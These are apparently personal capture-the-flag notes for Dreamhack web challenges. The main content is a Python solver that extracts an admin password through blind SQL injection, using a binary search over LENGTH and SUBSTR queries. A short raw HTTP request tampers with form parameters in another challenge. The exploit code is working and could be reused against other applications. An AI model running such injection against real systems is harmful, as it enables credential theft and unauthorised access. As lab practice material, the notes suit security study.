 ```py
                break
            
            query = query_tmpl.format(val=mid)
            
            if "hello" in self._sqli(query).text:
                high = mid
            else:
                low = mid
        
        return mid
    
    
    # attack methods
    def _find_password_length(self, user: str, max_pw_len: int = 100) -> int:
        query_tmpl = f"((SELECT LENGTH(userpassword) WHERE userid=\"{user}\") < {{val}})"
        pw_len = self._sqli_lt_binsearch(query_tmpl, 0, max_pw_len)
        
        return pw_len
    
    
    def _find_password(self, user: str, pw_len: int) -> str:
        pw = ''
        for idx in range(1, pw_len+1):
            query_tmpl = f"((SELECT SUBSTR(userpassword,{idx},1) WHERE userid=\"{user}\") < CHAR({{val}}))"
            pw += chr(self._sqli_lt_binsearch(query_tmpl, 0x2f, 0x7e))
            print(f"{idx}. {pw}")
        
        return pw
    
    
    def solve(self) -> None:
        # Find the length of admin password
        pw_len = solver._find_password_length("admin")
        print(f"Length of the admin password is: {pw_len}")
        
        # Find the admin password
        print("Finding password:")
        pw = solver._find_password("admin", pw_len)
        print(f"Password of the admin is: {pw}")


if __name__ == "__main__":
    port = sys.argv[1]
    
    solver = Solver(port)
    solver.solve()
```
### session-basic
- wtf /admin ???
### Fishing 
```
POST /fish HTTP/1.1
Host: host3.dreamhack.games:13803
Content-Type: application/x-www-form-urlencoded
Cookie: session=<COOKIE_HIEN_TAI>
Content-Length: 185
Connection: close

probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=0&probs=1
```